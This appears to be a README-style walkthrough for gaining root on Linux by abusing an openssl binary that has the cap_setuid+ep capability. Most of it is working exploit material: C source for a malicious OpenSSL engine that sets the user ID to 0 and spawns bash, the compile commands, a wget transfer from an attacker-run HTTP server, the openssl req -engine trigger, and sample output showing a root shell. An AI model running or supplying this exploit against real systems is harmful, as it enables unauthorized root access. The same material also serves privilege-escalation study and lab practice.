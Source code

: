 ####All credit goes to chaudhary1337 https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/
####Modified by LV6LV

#Consider the binary /usr/bin/openssl has capabilities set as: /usr/bin/openssl = cap_setuid+ep Is there a way to become root from a normal user by using this?

#Search all the binaries' capibilities using: 
````
getcap -r / 2>/dev/null.
````
getcap is the tool we will use
-r is the recursive flag
2>/dev/null directs the standard error stream to /dev/null
If you see /usr/bin/openssl = cap_setuid+ep, we are set for success.

1. Requirements (On Your System)
We will use #include <openssl/engine.h> header in our exploit engine file. On debian based systems, use: sudo apt-get install libssl-dev to install.
gcc
2. Getting The Exploit Ready
Create a file named openssl-exploit-engine.c with contents as such:

#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()   
Check the [2] reference for more information.

3. Compiling
Run the following:

gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
Output for 1:

┌──(kali㉿kali)-[/tmp]
└─$  gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
openssl-exploit-engine.c: In function ‘bind’:
openssl-exploit-engine.c:5:3: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    5 |   setuid(0); setgid(0);
      |   ^~~~~~
openssl-exploit-engine.c:5:14: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    5 |   setuid(0); setgid(0);
      |              ^~~~~~
It is safe to ignore warnings here. Resultant is the openssl-exploit-engine.so file.

4. Transferring the file
Using python3’s http server, and wget or curl on the target machine, we can transfer the file.

[on your machine] start up python3 server in the directory where you have the file, as such: sudo python3 -m http.server 80. this starts the server on port 80.
[on target machine] use wget or curl the file as such: wget YOUR_RELEVANT_IP/openssl-exploit-engine.so
5. Root (Finally!)
Once you have the file, run the following, at the location of the so file.

openssl req -engine ./openssl-exploit-engine.so

Sample output

user@server:~$ openssl req -engine ./openssl-exploit-engine.so
root@server:~# whoami
root
Enjoy!

6. Common Errors
┌──(kali㉿kali)-[/tmp]
└─$  gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
openssl-exploit-engine.c:1:10: fatal error: openssl/engine.h: No such file or directory
    1 | #include <openssl/engine.h>
      |          ^~~~~~~~~~~~~~~~~~
compilation terminated.
If you get this error, check the section on Requirements.

7. References
Read up more on capabilities.
OpenSSL building a useless engine
How to use the library load feature OpenSSL
openssl

